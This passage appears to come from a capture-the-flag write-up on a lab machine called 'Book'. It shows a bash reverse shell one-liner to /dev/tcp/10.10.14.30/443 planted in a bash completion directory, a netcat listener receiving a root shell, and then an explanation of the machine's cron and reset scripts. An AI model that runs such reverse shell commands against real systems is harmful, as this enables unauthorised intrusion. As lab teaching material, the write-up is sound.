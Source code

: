     reader@book:/dev/shm$ cat /etc/bash_completion.d/access.log 
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.30/443 0>&1 
    

A few seconds later I get a callback on my `nc` listener:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.176.
    Ncat: Connection from 10.10.10.176:56192.
    root@book:~# id
    uid=0(root) gid=0(root) groups=0(root) 
    

The first time I ran this the shell dropped after a few seconds. I had a
couple other false starts, but eventually got a shell that was stable. I
grabbed `root.txt`:

    
    
    root@book:~# cat root.txt  
    84da92ad************************
    

## Beyond Root

There’s a lot of automated user activity on this box that’s worth taking a
look at. All of it starts at the root crontab:

    
    
    root@book:~# crontab -l
    ...[snip]...
    # m h  dom mon dow   command
    @reboot /root/reset.sh
    * * * * * /root/cron_root
    */5 * * * * rm /etc/bash_completion.d/*.log*
    */2 * * * * /root/clean.sh
    

On start up (`@reboot`), root will run `/root/reset.sh` (I added some
whitespace for readability):

    
    
    #!/bin/sh
    while true
    do
            /root/log.sh && sleep 5
            if [ -d /home/reader/backups2 ];then
                    sleep 5 && \
                    rm -rf /home/reader/backups && \
                    mv /home/reader/backups2 /home/reader/backups && \
                    echo '192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"' > /home/reader/backups/access.log && \
                    chown -R reader:reader /home/reader/backups && \
                    rm /home/reader/backups/access.log.*
            fi
    done
    